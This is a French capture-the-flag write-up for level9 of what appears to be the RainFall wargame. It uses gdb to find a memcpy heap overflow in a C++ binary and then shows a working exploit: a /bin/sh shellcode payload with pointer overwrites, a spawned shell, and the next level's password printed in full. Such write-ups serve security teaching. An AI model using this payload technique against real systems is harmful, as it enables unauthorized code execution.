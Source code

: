 # Level 9

En ouvrant level9 avec cuter on ce rend comp que le code est en c++ on remarque egalement qu'il n'y a ni `cat .pass` ni de `bin/sh` nous allons donc utiliser un shell code.
Pour ce level nous allons utiliser `gdb` pous voir les case memoir utiliser. Pour commancer  on vas chercher a savoir quelle fonction son appeler 
```
(gdb) info function
All defined functions:

Non-debugging symbols:
[...]
0x08048510  memcpy
0x08048510  memcpy@plt
[...]
---Type <return> to continue, or q <return> to quit---
```
on peut voir que le programme appel `memecpy` que nous pouvont overflow.
il nous reste a trouver a quelle address `segfault` le programme, nous allons donc tester avec 200 charater.
```
(gdb) run $(python -c 'print "a" * 200')
Starting program: /home/user/level9/level9 $(python -c 'print "a" * 200')

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```
on peut voir que le programe `segfault` bien a l'adresse `0x08048682`, il nous reste a voir a quelle instruction elle corespond.
```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
=> 0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave  
   0x08048699 <+165>:   ret    
End of assembler dump.
```
On peut voir que le `segfault`  lors du mov de l'edx dans l'eax, On cherche alors ou la string est stocke, on va donc creer un breakpoint a l'adresse apres le setAnnotation ou il y a un memcpy On relance le programme avec une string qui fonctionne comme 'aaaa', le breakpoint s'enclenche il nous reste donc qu'a print les valeurs que l'on veut
```
(gdb) b *main+136
Breakpoint 1 at 0x804867c
(gdb) run 'aaaa'
Starting program: /home/user/level9/level9 'aaaa'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x61616161
(gdb) x $edx
0x804a010:      0x00000000
(gdb) 
```
Il nous reste meinenant qu'a cree le payload avec le shellcode qui nous avons deja utiliser dans les exercie precedant : 
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```
ce qui nou donne 

> L'adresse de l'edx (4) + shellcode (21) + offset (83) + l'adresse de eax (4)

il ne nous reste plus qu'a lexecuter :
```
level9@RainFall:~$ ./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'a' * 83 + '\x0c\xa0\x04\x08'")
$ whoami 
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$ 
```
